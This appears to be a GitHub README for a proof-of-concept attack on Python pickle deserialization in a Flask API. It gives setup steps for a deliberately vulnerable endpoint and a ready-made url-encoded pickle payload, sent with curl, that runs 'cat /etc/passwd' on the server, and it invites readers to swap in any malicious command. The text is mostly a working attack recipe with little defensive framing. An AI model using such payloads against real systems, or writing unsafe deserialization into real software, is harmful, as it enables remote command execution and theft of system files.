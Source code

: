 # API Deserialization Abuse
POC code illustrating a deserialization abuse over an API
 
Steps to produce a Deserialization attack/abuse against the API:
 
Step 1: Print out a serialized, URL encoded string of the command you wish to execute on a remote target (API Server).
- On the API server, install python 2 with apt install python 2.
- Create a python script. This script will produce a serialized output of the adversary’s command/object. In this POC code, the command is `cat /etc/passwd` but you can replace it with any (malicious) command you want.
 
- Chmod the genpickle.py script with 777 rights, and run the script
- Copy the output that appears on screen and paste it into the URLencoder at https://www.urlencoder.org/. Copy this encoded string for use by client in step 2.
 
Step 2. Create the Flask script that will produce the API endpoint URL and deserialize the command object
- On the API server, install pip3 with apt install python-pip3.
- Install flask with pip install flask.
- Chmod the python script api.py
 
Note: You’ll notice the urllibe.parse import in the script. This is required for any POST parameter parsing. I don’t know why, but when POSTing parameters, you need to handle the values/strings differently from when doing a GET with query parameters in the URL. 
 
- Run the flask API service with ./api.py.
- Send the serialized command object to the API server as a parameter value.
- On an API client, perform a test using cURL to see if the API service works. Insert your url-encoded string accordingly.
 
``
GET query: curl <Server_URL>:<Port>/?cmd=<url_encoded_string>
Example curl command (executed from localhost of server) for returning all etc/passwd users and passwords:
curl http://127.0.0.1/?cmd=csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.
``

``
POST query: curl POST <Server_URL>:<Port> -d ‘{“cmd”:“csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.”}’
Example curl command (executed from localhost of server) for returning all etc/passwd users and passwords:
curl http://127.0.0.1/?cmd=csubprocess%0Acheck_output%0Ap1%0A%28%28lp2%0AS%27cat%27%0Ap3%0AaS%27%2Fetc%2Fpasswd%27%0Ap4%0AatRp5%0A.
``
